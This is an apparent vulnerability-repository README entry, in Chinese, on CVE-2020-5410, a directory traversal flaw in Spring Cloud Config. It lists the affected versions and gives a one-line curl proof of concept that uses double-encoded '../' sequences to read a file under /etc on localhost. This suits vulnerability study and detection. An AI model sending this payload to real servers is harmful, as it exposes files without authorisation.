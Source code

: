 # CVE-2020-5410 Spring Cloud Config 目录穿越

影响版本：  
- 2.2.0 to 2.2.2  
- 2.1.0 to 2.1.8  

poc：
```java
curl http://127.0.0.1:8888/..%252F..%252Fetc%252Fdd.txt%23/CESHI
```
读取/etc/dd.txt文件

![ceshi](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/blob/master/Spring%20Cloud/CVE-2020-5410%20Spring%20Cloud%20Config%20%E7%9B%AE%E5%BD%95%E7%A9%BF%E8%B6%8A/PIC/1.png)
![ceshi](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/blob/master/Spring%20Cloud/CVE-2020-5410%20Spring%20Cloud%20Config%20%E7%9B%AE%E5%BD%95%E7%A9%BF%E8%B6%8A/PIC/linux_b.png)
![ceshi](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/blob/master/Spring%20Cloud/CVE-2020-5410%20Spring%20Cloud%20Config%20%E7%9B%AE%E5%BD%95%E7%A9%BF%E8%B6%8A/PIC/linux_file.png)


